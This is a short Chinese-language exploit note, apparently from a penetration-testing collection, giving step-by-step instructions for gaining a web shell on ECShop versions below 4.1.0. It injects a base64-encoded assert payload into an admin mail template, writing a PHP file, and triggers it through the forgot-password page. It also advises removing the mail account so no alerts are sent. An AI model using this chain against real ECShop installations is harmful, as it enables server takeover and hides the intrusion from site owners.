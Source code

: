 # ECShop

---

## 后台getshell：

版本：ecshop4.1.0以下

教程：https://cloud.tencent.com/developer/article/1755572

系统设置/邮件服务器设置（将账号记录并删除,不然会发生邮件）

权限管理/管理员列表（记录用户名和Email地址）

模板管理/邮件模板/

```
base64解码：file_put_contents('xcheck.php','<?php phpinfo();'); #创建文件并输入
{str:{\$asd'];assert(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJ3hjaGVjay5waHAnLCc8P3BocCBwaHBpbmZvKCk7Jyk7IA=='));//}x
确定保存
```

找到后台的忘记密码

```
https://xxxx/admin/get_password.php?act=forget_pwd
```

输入用户名和Email地址确定，会去调用邮件模板中的密码找回模板触发payload

